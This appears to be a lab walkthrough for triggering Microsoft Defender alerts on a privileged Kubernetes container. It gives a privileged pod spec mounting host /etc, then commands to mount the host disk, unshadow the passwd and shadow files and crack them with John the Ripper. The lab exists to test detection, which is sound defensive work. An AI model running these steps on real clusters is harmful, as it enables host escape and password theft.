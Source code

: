 # Privileged Container Detected

Machine logs indicate that a privileged Docker container is running. A privileged container has a full access to the host's resources. If compromised, an attacker can use the privileged container to gain access to the host machine

we will show how within a privilege container and no restrictions from the unerlaying node, we can mount a volume from the node
As privilege container, we can get into the mounted volume and access the /etc and crack the passwords with john the rieper 

we will create a privileged pod as this

```
apiVersion: v1
kind: Pod
metadata:
  name: security-context-demo
spec:
  volumes:
  - name: sec-ctx-vol
    hostPath:
      path: /etc
  containers:
  - name: sec-ctx-pod
    image: nginx
    command: [ "sh", "-c", "sleep 999" ]
    volumeMounts:
    - name: sec-ctx-vol
      mountPath: /data
    securityContext:
      privileged: true
```

we access the running container

```
kubectl exec -it <name-of-priv-container> -- /bin/bash
```
Now we will try to mount the volumes from the host OS into the container, in a privileged container this is possible not in a normal container

```
 mount /dev/sda1 /mnt
 ```

```
cd /mnt/etc
```
 In a priv container we can get into the /etc and crack the passwords with john the reaper!

 ```
 apt-get install john
 ```

 ```
 unshadow passwd shadow > /tmp/unshadow
 ```
```
cd /tmp
```
```
john unshadow 
```

Now, wait until Defender creates one alert for the detection of a Container with a sensitive volume mount detected

![sesitive mount](/images/sensitive-mount.png)


Also, Defender will create another alert for Privileged container detected

![credential-dumping](/images/priv-container.png)